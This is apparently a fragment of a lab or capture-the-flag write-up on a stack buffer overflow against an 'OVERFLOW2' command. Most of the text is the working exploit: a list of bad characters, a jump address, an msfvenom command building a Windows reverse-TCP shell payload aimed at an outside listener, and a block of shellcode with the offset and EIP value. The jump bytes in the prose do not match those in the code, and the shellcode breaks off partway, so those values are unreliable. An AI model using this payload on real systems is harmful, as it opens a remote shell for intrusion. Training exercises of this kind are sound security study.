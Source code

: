 Removing: "\x00\x23\x3c\x83\xba"

![compare2](assets/markdown-img-paste-20210904090251880.png)

### Exploit
Jmp parameter: "\xaf\x11\x60\62"

![jmpof2](assets/markdown-img-paste-20210904090522640.png)

Generating shellcode:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x23\x3c\x83\xba"`

![of2admin](assets/markdown-img-paste-2021090409082444.png)
### Final parameters
```
# sendbuff values
cmd = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
eip_val = "\xaf\x11\x50\x62"
nops = "\x90" * 16
payload = ("\xfc\xbb\x11\x1a\xad\xe0\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xed\xf2\x2f\xe0\x0d"
"\x03\x50\x68\xe8\x32\x50\x0e\x79\x64\x60\x44\x2f\x89\x0b\x08"
"\xdb\x1a\x79\x85\xec\xab\x34\xf3\xc3\x2c\x64\xc7\x42\xaf\x77"
"\x14\xa4\x8e\xb7\x69\xa5\xd7\xaa\x80\xf7\x80\xa1\x37\xe7\xa5"
"\xfc\x8b\x8c\xf6\x11\x8c\x71\x4e\x13\xbd\x24\xc4\x4a\x1d\xc7"
"\x09\xe7\x14\xdf\x4e\xc2\xef\x54\xa4\xb8\xf1\xbc\xf4\x41\x5d"
"\x81\x38\xb0\x9f\xc6\xff\x2b\xea\x3e\xfc\xd6\xed\x85\x7e\x0d"
"\x7b\x1d\xd8\xc6\xdb\xf9\xd8\x0b\xbd\x8a\xd7\xe0\xc9\xd4\xfb"
"\xf7\x1e\x6f\x07\x73\xa1\xbf\x81\xc7\x86\x1b\xc9\x9c\xa7\x3a"
"\xb7\x73\xd7\x5c\x18\x2b\x7d\x17\xb5\x38\x0c\x7a\xd2\x8d\x3d"
"\x84\x22\x9a\x36\xf7\x10\x05\xed\x9f\x18\xce\x2b\x58\x5e\xe5"
"\x8c\xf6\xa1\x06\xed\xdf\x65\x52\xbd\x77\x4f\xdb\x56\x87\x70"
"\x0e\xf8\xd7\xde\xe1\xb9\x87\x9e\x51\x52\xcd\x10\x8d\x42\xee"
"\xfa\xa6\xe9\x15\x6d\xc3\xe5\xc7\x1e\xbb\xf7\xe7\xe1\x80\x71"
"\x01\x8b\xe6\xd7\x9a\x24\x9e\x7d\x50\xd4\x5f\xa8\x1d\xd6\xd4"
"\x5f\xe2\x99\x1c\x15\xf0\x4e\xed\x60\xaa\xd9\xf2\x5e\xc2\x86"
```